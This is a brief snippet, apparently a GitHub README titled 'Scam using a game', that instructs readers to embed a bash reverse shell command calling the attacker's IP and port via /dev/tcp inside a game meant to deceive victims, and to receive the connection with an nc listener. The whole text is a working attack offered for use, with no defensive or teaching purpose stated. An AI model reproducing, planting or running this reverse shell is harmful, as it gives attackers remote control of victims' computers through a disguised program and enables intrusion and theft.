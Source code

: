 #Scam using a game

The command to insert in your scam game is as commented below:
/bin/bash -i >/dev/tcp/{YOUR_LISTENING_IP_ADDRESS}/{THE_PORT_YOURE_LISTENING_TO} 0<&1 2>&1
The command to use for entry is:
nc -lnvp PORT -s YOUR_IP_ADDRESS
Note: The ip address in your file is the same as the ip you'll be listening using.
